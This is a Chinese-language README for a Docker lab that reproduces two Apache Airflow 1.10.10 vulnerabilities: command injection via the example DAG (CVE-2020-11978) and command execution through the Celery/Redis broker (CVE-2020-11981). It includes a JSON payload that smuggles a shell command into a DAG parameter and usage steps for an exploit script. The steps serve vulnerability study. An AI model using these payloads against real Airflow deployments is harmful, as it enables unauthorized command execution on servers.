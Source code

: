 # Airflow 1.10.10 多个漏洞利用

airflow是一款开源的，分布式任务调度框架，它将一个具有上下级依赖关系的工作流，组装成一个有向无环图。

docker-compose文件由airflow 2.x提供的docker-compose文件修改而来。

Airflow的配置中使用CeleryExecutor进行任务执行，所以命令执行结果需要在CeleryWorker所在容器中进行查看。

由于启动的组件比较多，可能会有点卡，虚拟机使用请准备2G以上的内存。

## 漏洞环境

依次执行如下命令启动airflow 1.10.10

```bash
#初始化数据库
docker-compose run airflow-init initdb
#启动服务
docker-compsoe up -d
```

## 漏洞复现

### CVE-2020-11978 示例dag中的命令注入

访问`http://主机:8080`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![image-20210701142307744](README.assets/image-20210701142307744.png)

再点击执行按钮，在`Configuration JSON`中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`,再点`Trigger`执行dag

![image-20210701142758977](README.assets/image-20210701142758977.png)

等几秒可以看到执行`success`了

![image-20210701142948275](README.assets/image-20210701142948275.png)

到CeleryWorker容器中进行查看：

```bash
docker-compose exec airflow-worker ls -l /tmp
```

可以看到成功创建了airflow_dag_success文件

![image-20210701154024308](README.assets/image-20210701154024308.png)

### CVE-2020-11981 利用Celery进行命令执行

（其实这个还有默认配置中的各种未授权问题的结合利用）

airflow使用Celery 4.0以上的版本，所以没法通过pickle反序列化漏洞进行利用，但可以通过下发自带启动Task用的`airflow.executors.celery_executor.execute_command`任务来执行任意命令，参数为命令执行中所需要的数组。

漏洞利用脚本`exploit_airflow_celery.py`仅支持在python3下使用,默认执行命令`touch /tmp/airflow_celery_success`

```bash
pip install redis
python exploit_airflow_celery.py [主机IP]
```

查看结果：

```bash
docker-compose logs airflow-worker
```

可以看到如下任务消息：

![image-20210701153205499](README.assets/image-20210701153205499.png)

```bash
docker-compose exec airflow-worker ls -l /tmp
```

可以看到成功创建了文件`airflow_celery_success`

![image-20210701153237894](README.assets/image-20210701153237894.png)

## 参考

https://xz.aliyun.com/t/8037

https://lists.apache.org/thread.html/r7255cf0be3566f23a768e2a04b40fb09e52fcd1872695428ba9afe91%40%3Cusers.airflow.apache.org%3E

https://docs.celeryproject.org/en/stable/userguide/configuration.html

https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk

https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers

https://www.jianshu.com/p/52552c075bc0

https://www.runoob.com/w3cnote/python-redis-intro.html

https://blog.csdn.net/SKI_12/article/details/85015803
